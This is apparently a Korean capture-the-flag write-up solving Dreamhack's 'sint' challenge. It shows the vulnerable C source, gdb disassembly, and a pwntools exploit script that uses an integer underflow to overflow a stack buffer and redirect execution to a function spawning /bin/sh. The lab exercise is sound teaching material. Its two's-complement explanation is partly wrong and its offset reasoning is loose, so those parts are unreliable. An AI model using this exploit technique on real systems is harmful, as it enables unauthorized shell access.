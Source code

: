 ```yaml
---
published: true
image: /img
layout: post
title: Dreamhack sint 문제풀이
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-05-03 21:00
---
```

오랜만에 풀어보는 pwn문제이다.

드림핵에 베이직으로 있는 sint의 취약점을 이용한 문제로 문제이름 또한 sint이다.

문제 압축파일을 다운 받으면 .c로 된 코드 파일과 컴파일한 elf 파일을 제공한다. 우선 .c 파일을 열어보면 내용은 다음과 같다.

```c++
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

위 코드를 살펴보면 Size를 입력 받고 if 구분을 통해 조건 비교 후 Data를 read 함수로 입력받는 구조이다. if문을 보면 256보다 크거나, 0보다 작으면 `printf("Buffer Overflow!\n");`를 실행하고 코드를 종료한다. 따라서 Size에 입력되는 값은 0~256까지의 범위를 가질 수 있다.

아래 read함수를 보면 사이즈가 256인 buf 변수에 `size-1`만큼의 데이터를 입력 받는다. 여기서 잘 봐야할 점은 size는 0부터 256까지 숫자가 들어갈 수 있는데 만약 0을 넣으면 어떤일이 일어날까?

read의 데이터 크기에는 -1이 들어가고 이는 2진 보수변환에 의해 아에 다른 값으로 바뀐다.
int형은 4byte가지고 있다. 기본적으로 C언어의 숫자처리는 마이너스 값을 취급하기위해 2의 보수를 사용하며 양의 정수값만 사용하는 int를 선언하려면 Unsigned int 자료형을 사용해야한다.

4바이트 크기의 1을 2진으로 변환하면 다음과 같다. 
```
0000 0000 0000 0000 0000 0000 0000 0001
```
하지만 이를 컴퓨터가 양수 1로 인식하기 위해서는 1의 보수를 구한 다음 2의 보수를 구해 계산한다

그 과정은 다음과 같다.

```
0000 0000 0000 0000 0000 0000 0000 0001

위 2진수를 1의 보수처리를 한다(2진수의 NOT = 의 보수)

1111 1111 1111 1111 1111 1111 1111 1110

위 2진수를 2의 보수처리 한다.(1의 보수의 2진 값 + 1)

1111 1111 1111 1111 1111 1111 1111 1111
```

위 설명이 2의 보수처리에 관한 설명이다. 이걸 응용해 -1의 보수를 구하면 
```
0000 0000 0000 0000 0000 0000 0000 0001
```
다음과 같지만 read 함수의 데이터 크기를 양수만, 즉 Unsigned int값을 받는다.
즉 따라서 보수 처리가 필요 없다는 것인데, 위 -1의 보수처리된 2진수를 역으로 계산하면 
```
1111 1111 1111 1111 1111 1111 1111 1111
```
위 2진수가 메모리에 저장되어 있는것이다. 이 값는 0xffffffff와 동일하며 매우 큰 값을 뜻하므로 버퍼 오버플로우 공격이 가능하다.

자세한 내용은 C언어의 메모리 저장과 보수처리에 관해서 찾아보면 금방 이해 될 것이다.


위와같이 -1이 들어가면 매우 큰 값을 쓸 수 있으니, size에는 0을 넣으면 된다. 이후 read함수에서 버퍼오버플로우를 이용해 return값을 조작해 문제를 풀면 된다.

우선 바이너리를 gdb를 통해 disas main을 진행한다.
```c++
   0x0804866c <+0>:	    push   ebp
   0x0804866d <+1>: 	mov    ebp,esp
   0x0804866f <+3>:	    sub    esp,0x104
   0x08048675 <+9>:     call   0x8048612 <initialize>
   0x0804867a <+14>:	push   0x8048659
   0x0804867f <+19>:	push   0xb
   0x08048681 <+21>:	call   0x8048470 <signal@plt>
   0x08048686 <+26>:	add    esp,0x8
   0x08048689 <+29>:	push   0x80487a1
   0x0804868e <+34>:	call   0x8048460 <printf@plt>
   0x08048693 <+39>:	add    esp,0x4
   0x08048696 <+42>:	lea    eax,[ebp-0x104]
   0x0804869c <+48>:	push   eax
   0x0804869d <+49>:	push   0x80487a8
   0x080486a2 <+54>:	call   0x80484e0 <__isoc99_scanf@plt>
   0x080486a7 <+59>:	add    esp,0x8
   0x080486aa <+62>:	mov    eax,DWORD PTR [ebp-0x104]
   0x080486b0 <+68>:	cmp    eax,0x100
   0x080486b5 <+73>:	jg     0x80486c1 <main+85>
   0x080486b7 <+75>:	mov    eax,DWORD PTR [ebp-0x104]
   0x080486bd <+81>:	test   eax,eax
   0x080486bf <+83>:	jns    0x80486d5 <main+105>
   0x080486c1 <+85>:	push   0x80487ab
   0x080486c6 <+90>:	call   0x8048490 <puts@plt>
   0x080486cb <+95>:	add    esp,0x4
   0x080486ce <+98>:	push   0x0
   0x080486d0 <+100>:	call   0x80484b0 <exit@plt>
   0x080486d5 <+105>:	push   0x80487bc
   0x080486da <+110>:	call   0x8048460 <printf@plt>
   0x080486df <+115>:	add    esp,0x4
   0x080486e2 <+118>:	mov    eax,DWORD PTR [ebp-0x104]
   0x080486e8 <+124>:	sub    eax,0x1
   0x080486eb <+127>:	push   eax
   0x080486ec <+128>:	lea    eax,[ebp-0x100]
   0x080486f2 <+134>:	push   eax
   0x080486f3 <+135>:	push   0x0
   0x080486f5 <+137>:	call   0x8048450 <read@plt>
   0x080486fa <+142>:	add    esp,0xc
   0x080486fd <+145>:	mov    eax,0x0
   0x08048702 <+150>:	leave  
   0x08048703 <+151>:	ret    
```

0x0804866f 부분을 보면 esp에서 0x104만큼의 크기를 빼 buf를 위한 공간을 만든다. read함수에서 return 주소를 조작할 것이기 때문에 104를 10진수로 전환한 260의 임의 값을 넣고 4바이트의 sfp 임의 값에 get_shell()함수의 주소를 넣으면 된다.

```
disas get_shell
```
을 통해 주소값을 알아낸다. 함수의 주소는 0x08048659 이며 이를 이용해 파이썬 코드를 작성한다.

```python
from pwn import *

conn = remote("host1.dreamhack.games", 11225);

get_shell = p32(0x08048659)
payload = b'A'*(264)
payload += get_shell

conn.recvuntil("Size: ")
conn.sendline("0")

sleep(1)

conn.recvuntil("Data: ")
conn.send(payload)

sleep(1)
#conn.recvall()
conn.interactive()
```

이 코드를 돌리면 flag를 얻을 수 있다.
참고로 이유는 모르겠지만 위 코드가 윈도우 환경에서는 이상하게 동작하지 않는다. 필자는 VM을 통해 우분투 20.04를 이용했다.
